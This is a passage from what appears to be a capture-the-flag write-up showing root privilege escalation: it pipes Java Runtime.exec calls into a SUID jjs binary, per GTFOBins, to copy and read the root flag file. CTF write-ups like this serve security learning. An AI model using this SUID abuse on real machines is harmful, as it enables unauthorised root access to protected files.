 So using the SUID pe payload we found on [GTFOBins][GTFOBins], we can elevate
our privileges to root, and use this to read the root flag.

```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /tmp/.cyfun/cyfun.txt').waitFor()" | jjs
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod g+rw /tmp/.cyfun/cyfun.txt').waitFor()" | jjs
$ cat /tmp/.cyfun/cyfun.txt
8a8ef79a7a2fbb01ea81688424e9ab15
```

[nmap]:https://nmap.org/
